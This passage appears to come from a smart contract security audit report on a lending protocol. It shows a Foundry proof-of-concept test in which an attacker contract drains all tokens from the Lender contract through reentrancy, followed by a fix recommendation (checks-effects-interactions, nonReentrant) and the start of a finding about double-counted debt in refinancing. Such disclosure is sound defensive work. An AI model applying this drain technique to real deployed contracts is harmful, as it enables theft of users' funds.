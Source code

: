 ```solidity
        }
    }

}
```
Here are the tests that can be added to `Lender.t.sol` to illustrate the steps of an attacker:
```solidity
function test_exploit() public {
	// Setup
	address attacker = address(0x5); 
	WeirdToken weirdToken = new WeirdToken(10_500*10**18); 
	weirdToken.transfer(address(lender), 9_500*10**18);
	weirdToken.transfer(address(attacker), 1_000*10**18);

	// Before the exploit
	assertEq(weirdToken.balanceOf(address(lender)), 9_500*10**18);      // Lender contract has 9_500 weirdToken
	assertEq(weirdToken.balanceOf(address(attacker)), 1_000*10**18);    // Attacker has 1_000 weirdToken

	// Exploit starts here
	vm.startPrank(attacker);
	Exploit3 attackContract = new Exploit3(lender);
	weirdToken.transfer(address(attackContract), 1_000*10**18);
	attackContract.attack(address(weirdToken), 1_000*10**18);

	// After the exploit
	assertEq(weirdToken.balanceOf(address(lender)), 0);                 // Lender contract has been drained
	assertEq(weirdToken.balanceOf(address(attacker)), 10_500*10**18);   // Attacker stole all the tokens
}
```

## Tools Used
Manual review + Foundry

## Recommendations
Follow the _Checks - Effect - Interactions_ (CEI) pattern by updating the pools mapping (Line 175) before transfering the funds AND use nonReentrant modifiers


# [H-07] - Lender loses money when a loan is refinanced
## Summary
The updated `debt` of a loan is removed twice from the `poolBalance` when a loan is refined by the `refinance` function.

## Vulnerability Details
In the `refinance` function the new `debt` is substracted twice from the `pools[poolId].poolBalance`. This leads to `poolBalance` being underestimated and so the lender can not withdraw their tokens anymore, funds are locked in the contract.
